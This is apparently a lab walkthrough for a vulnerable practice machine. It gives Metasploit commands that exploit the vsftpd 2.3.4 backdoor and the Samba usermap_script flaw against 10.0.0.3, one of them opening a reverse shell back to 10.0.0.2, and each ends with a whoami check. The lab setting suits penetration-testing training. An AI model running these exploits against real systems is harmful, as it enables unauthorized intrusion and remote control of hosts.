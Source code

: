 Port 21 vsftpd

<details>
<summary>Solution</summary>

```markdown
search vsftpd
```



The output of the search is: 



```markdown
Matching Modules

================

Name                                  Disclosure Date  Rank    Description

----                                  ---------------  ----    -----------

exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Now to the exploitation:

```markdown
use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 10.0.0.3

set payload cmd/unix/interact

exploit

```

To verify if the exploit worked use 
```markdown
whoami
```
</details>

Port 445 samba

<details>
<summary>Solution</summary>

```markdown
use auxiliary/scanner/smb/smb_version

set RHOSTS 10.0.0.3

run
```

With the information we now have we can use:
```markdown
use exploit/multi/samba/usermap_script

set RHOSTS 10.0.0.3

set payload cmd/unix/reverse

set LHOST 10.0.0.2

set RPORT 445

exploit
```

To verify our access: 

```markdown
whoami
```

</details>